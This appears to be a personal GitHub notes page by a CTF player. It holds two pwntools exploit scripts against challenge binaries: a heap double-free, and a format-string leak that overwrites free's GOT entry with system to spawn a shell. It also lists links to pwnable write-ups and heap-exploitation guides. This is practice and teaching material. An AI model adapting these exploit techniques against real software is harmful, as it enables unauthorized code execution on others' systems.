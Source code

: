 # [0] Blogs
> Note for me.

# [1] Works...

[+] [Google Drive](https://drive.google.com/drive/folders/1Yd3RnKlJunSlAkmUS8o3cVPhGl3GtzmC?usp=share_link) .

[+] [Download folder from git](https://download-directory.github.io/) .

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
#     breakrva 0x0E0E
#     breakrva 0x0E1A
#     """,
# )
# Allocate, Free
# p = remote("159.89.203.225", "10003")

def Allocate(size, data):
    p.sendlineafter(b"You Choice:", b"1")
    p.sendlineafter(b"Size :", str(int(size)).encode())
    p.sendafter(b"Data :", data)    
    return

def Free(idx):
    p.sendlineafter(b"You Choice:", b"2")
    p.sendlineafter(b"Index :", str(idx).encode())
    return

# 2 | 2000 | +0x40

Allocate(0x60, p64(0) + p64(0x71))   # 0
Allocate(0x60, p64(0) + p64(0x51))   # 1
Allocate(0x60, p64(0)*3 + p64(0x51)) # 2

Free(1)
Free(0)
Free(1)
# 0x00 + 0x10 = 
Allocate(0x60, b"\x10")
Allocate(0x60, b"a")     
Allocate(0x60, b"a")
Allocate(0x60, b"a")

Free(0)
Allocate(0x60, p64(0x10) + p64(0x101))

Free(6)


p.interactive()

```

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
# 	breakrva 0x10AA
#     breakrva 0x10C2
#     breakrva 0x109E
#     breakrva 0x10B6
#     breakrva 0x0E2D
#     """,
# )
# D E N S printf
# p = remote("159.89.203.225", "10002")
# ATTT{e4sy_fmt_str_pa0}
def newNOTE(idx, size, content):
    p.sendlineafter(b"Choice >", b"N")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Size >", str(int(size)).encode())
    p.sendlineafter(b"Content >", content)    
    return

def deleteNOTE(idx):
    p.sendlineafter(b"Choice >", b"D")
    p.sendlineafter(b"Index >", str(idx).encode())
    return

def showNOTE(idx):
    p.sendlineafter(b"Choice >", b"S")
    p.sendlineafter(b"Index >", str(idx).encode())
    leak = p.recvuntil(b"\n")
    return leak

def editNOTE(idx, content):
    p.sendlineafter(b"Choice >", b"E")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Content >", content)
    return


newNOTE(0, 0x200, b"%p-" * 20)
newNOTE(1, 0x100, b"B" * 8)
newNOTE(2, 0x100, b"/bin/sh\x00")
deleteNOTE(1)
leak = showNOTE(0)
leak = leak.split(b"-")
elf_leak = int(leak[10].decode(), 16)
libc_leak = int(leak[14].decode(), 16)
stack_ptr = int(leak[16].decode(), 16)

# 15 - libc | 11 - elf 
# 17 - 43
elf.address = elf_leak - 0x10bb
libc.address = libc_leak - 0x21bf7
rsp = stack_ptr - 0x128
log.info("ELF base address:             " + hex(elf.address))
log.info("Leak (__libc_start_main+231): " + hex(libc_leak))
log.info("Libc base address:            " + hex(libc.address))
log.info("rsp:                          " + hex(rsp))

# fix stack ptr
wr = (rsp + 0x68 + 2) & 0xffff
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

wr = wr - 2
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

# overwrite got free => libc system | para 19
tmp = libc.symbols['system']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = (tmp + 2) & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = libc.symbols['system']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

deleteNOTE(2)

p.interactive()

```

> Pwnable.tw

- https://www.taintedbits.com/tags/pwnable-tw/
- https://hackmd.io/@wxrdnx/r1CXaFHdv
- https://drx.home.blog/2019/04/20/pwnable-tw-hacknote/
- https://www.programmersought.com/article/77565878612/
- https://p1kk.github.io/2020/09/10/tw/tw%20death_note/
- https://k1r4.github.io/posts/death_note/
> TetCTF
 
- `2019` https://d4rkn3ss.medium.com/write-up-for-pwnable-challenges-tetctf-2019-a74eb177518e

> ASCIS - SVATTT

- `2017` https://www.youtube.com/watch?v=_EJQKtpQ0oM
 

>Heap

  * `All view heap teachnique exploit` https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/
  
  * `Heap security check` https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks

> how2heap 

  * https://hackmd.io/@u1f383/Sy_2pqMAP


> listNOTE-PWNABLE

  * https://uaf.io/tags.html#BCTF-ref

### List video pwnable, exploit, security research, ...

* [BabyTalk#5](https://www.youtube.com/watch?v=94O8wdcvEFM&list=WL&index=249) .

--------------------------------------------------------------------------------


[+] OSCP - https://different-mosquito-965.notion.site/OSCP-ef04a657ca26423d81c1a1fc0b35e147

[+] Java - https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
